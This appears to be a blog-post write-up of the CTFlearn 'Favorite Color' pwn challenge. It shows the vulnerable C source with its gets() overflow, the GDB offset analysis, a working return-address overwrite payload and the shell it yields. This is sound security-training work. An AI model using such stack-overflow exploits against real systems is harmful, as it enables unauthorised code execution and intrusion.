 ```yaml
---
title: "CTFlearn PWN Writeups"
permalink: "/ctflearn-pwn"
---
```


I plan to just keep adding PWN writeups here from [CTFlearn](https://ctflearn.com/).

## Favorite Color [60 PTS]

Source code is provided:

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];

    printf("Enter your favorite color: ");
    gets(buf);

    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }

    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());

    //disable buffering.
    setbuf(stdout, NULL);

    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
```

We can see that good will always be 0 because if you `XOR` anything with itself it returns 0, and when you `AND` anything with 0, it will also return 0.

```c
int good = 0;
for (int i = 0; buf[i]; i++) {
    good &= buf[i] ^ buf[i];
}
```
Since `vuln` always returns 0, this check will never pass:

```c
if (vuln()) {
    puts("Me too! That's my favorite color too!");
    puts("You get a shell! Flag is in flag.txt");
    system("/bin/sh");
}
```

However we can see that there is a `buffer overflow` on this line:

```c
gets(buf);
```

We can use this `buffer overflow` to overwrite the saved `eip` on the stack. 

Since we can change the saved `eip`, we can make the program skip the `if (vuln())` check.

Open the program up in `GDB` and find the offset from our input to the saved `eip`:

![saved eip offset](/assets/ctflearn/pwn/favorite-color/gdb_eip_offset.png)

We can see that we need 52 junk bytes and then our address to overwrite the saved `eip`.

Find the address of the instruction after the `if (vuln())` check:

![address of next instruction](/assets/ctflearn/pwn/favorite-color/if_addr.png)

We can see that the `if (vuln())` check is happening on address `0x08048655`, so we'll set the saved `eip` to the address after that, `0x08048657`.

> ``📝:`` To get this view just type `disassemble main`, where `main` can be any function you want to disassemble. 

Keep in mind that x86 uses [little endian](https://stackoverflow.com/a/25939262), so bytes are stored in reverse order.

Our final payload:

```sh
echo -e 'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x57\x86\x04\x08' > /tmp/script/payload
```

The `-e` is to enable interpretation of backslash escapes. 

Now we can do `(cat /tmp/script/payload; cat) | ./color` to send the payload to the binary. 

> ``📝:`` We need to do `(cat x; cat)` because if we don't, then `stdin` will close, and we can't type anything else.

Running this, we get the flag:

```sh
color@ubuntu-512mb-nyc3-01:~$ (cat /tmp/script/payload; cat) | ./color
Enter your favorite color: Me too! That's my favorite color too!
You get a shell! Flag is in flag.txt
cat flag.txt
flag{REDACTED}
```

I'll keep adding more writeups for pwn challenges here when I do them.

